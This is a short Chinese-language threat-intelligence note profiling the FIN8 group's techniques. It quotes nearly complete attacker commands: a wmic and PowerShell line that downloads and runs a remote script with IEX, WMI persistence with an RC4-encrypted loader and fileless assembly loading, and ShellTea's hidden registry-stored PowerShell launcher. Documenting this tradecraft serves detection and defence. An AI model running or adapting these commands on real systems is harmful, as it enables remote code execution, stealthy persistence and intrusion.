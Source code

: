 # FIN8

## 特征

1. 横向移动时使用WMI进行远程命令执行:wmic.exe /node:<target> process call create "cmd /c powershell.exe -nop -ep bypass -c $pw='b640a9c0e64704e1e202a07774613a29971fe5aa';$pa='sys';iex (New-Object System.Net.WebClient).DownloadString('https://Url地址/134af6')"，其中$pw用来解密下载的脚本文件，$pa为模拟令牌说明，会注入svchost.exe -k netsvcs运行的进程，最后通过IEX下载文件.

2. 通过WMI创建触发器来保持持久性，使用命令:cmd.exe /Q /c powershell.exe -nop -ep bypass -c C:\sldr.ps1 B4a0f3AE251b7689CFdDe1 1> \\127.0.0.1\ADMIN$\__1621898828.3311949 2>&1,在WMI中创建三个对象来保证持久。sldr.ps1脚本包含了一个RC4加密的字符串，B4a0f3AE251b7689CFdDe1则为解密的密钥.其中创建的第二个对象会通过无文件的方式加载到内存中，并通过StartCheck()执行静态方法powershell.exe -nop -c [System.Reflection.Assembly]::Load(([WmiClass]'root\cimv2:Win32_Base64Class').Properties['Prop'].Value);[MSDAC.PerfOSChecker]::StartCheck().

3. ShellTea恶意软件会在注册表HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run中存在，而且会滥用通配符使其匹配Software降低检测.

```bash
"C:\\Windows\\System32\\cmd.exe '/c' 'powershell.exe' '-w' '1' '-nop' '-c ' 'start-process powershell.exe -windowstyle hidden -arg '-nop -c $a=(Get-ItemProperty registry::HKCU\\S???ware\\Fpkakesude);IEX $a.Xshuzugewogazi ' '"
```
